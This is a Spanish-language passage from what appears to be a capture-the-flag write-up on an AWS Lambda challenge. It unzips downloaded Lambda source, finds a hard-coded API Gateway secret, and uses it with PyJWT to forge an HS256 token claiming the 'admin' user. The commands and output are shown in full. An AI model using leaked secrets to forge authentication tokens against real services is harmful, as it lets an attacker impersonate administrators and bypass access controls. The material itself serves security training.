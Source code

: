 Dado que el archivo se descargó sin la extensión ```.zip```, la añadiremos manualmente, luego procederemos a extraer su contenido y a visualizarlo.

```bash
┌─[root@kali]─[/home/user/aws/]
└──╼ mv code code.zip

┌─[root@kali]─[/home/user/aws/]
└──╼ unzip code.zip     
Archive:  code.zip
  inflating: lambda_function.py 

┌─[root@kali]─[/home/user/aws/]
└──╼ cat lambda_function.py 
import json

secret='RrXCv`mrNe!K!4+5`wYq' #apigateway authorization for CR-124

'''Beta release for tracking'''
def lambda_handler(event, context):
    try:
        id=event['queryStringParameters']['order_id']
        if id:
            return {
               'statusCode': 200,
               'body': json.dumps(str(resp)) #dynamodb tracking for CR-342
            }
        else:
            return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }
    except:
        return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }
```

El script incluye una variable llamada secret, que parece estar utilizada para la autorización en un servicio API Gateway, según el comentario en el código (#apigateway authorization for CR-124).

Para terminar ocuparemos ```PyJWT``` e importaremos la biblioteca jwt en una terminal Python y luego codificar un JWT (JSON Web Token) utilizando la misma ```secret``` que se encuentra en el script ```lambda_function.py```. Esto sugiere que la función Lambda y este token podrían estar relacionados de alguna manera, posiblemente en el contexto de la autorización.

> pip3 install pyjwt


```bash
┌─[root@kali]─[/home/user/aws/]
└──╼ python3           
Python 3.11.4 (main, Jun  7 2023, 10:13:09) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import jwt
>>> encoded_jwt = jwt.encode({"username": "admin"}, "RrXCv`mrNe!K!4+5`wYq", algorithm="HS256")
>>> print (encoded_jwt)
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.WFYEm2-bZZxe2qpoAtRPBaoNekx-oOwueA80zzb3Rc4
```
